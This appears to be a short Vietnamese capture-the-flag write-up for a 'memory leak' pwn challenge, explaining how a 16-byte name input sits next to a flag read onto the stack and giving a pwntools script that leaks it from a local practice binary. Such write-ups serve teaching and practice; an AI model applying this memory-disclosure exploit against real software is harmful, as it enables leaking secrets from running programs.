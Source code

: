 20 . memory leak
------


ta có 3 options ở bài này :

- đầu tiên cần tạo file flag để đọc

![image](https://hackmd.io/_uploads/HJtvVIuQke.png)

nhìn sơ vào thì option2 là print cái mà ta đã nhập ở option1 ra , options 3 thì đọc flag vô stack , option1 thì nhập dữ liệu vào 


sau khi fread :

![image](https://hackmd.io/_uploads/HJF5N8_Q1x.png)


read name :   read vào địa chỉ e50 mà flag ta thì ở e64 , 4 bytes tiếp sẽ là age của ta 

![image](https://hackmd.io/_uploads/B1KsNUumkl.png)

script :

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./memory_leakage')
p = process(exe.path)

p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'> ',b'1')
gdb.attach(p,gdbscript='''
           b*main+190
           b*main+229
           b*main+251
           b*main+271
           ''')
input()
p.sendafter(b'Name: ',b'a'*16)
p.sendlineafter(b'Age: ',str(0x12345678))
p.sendlineafter(b'> ',b'2')



p.interactive()
```

![image](https://hackmd.io/_uploads/Hyu6VLOQJe.png)


---------------
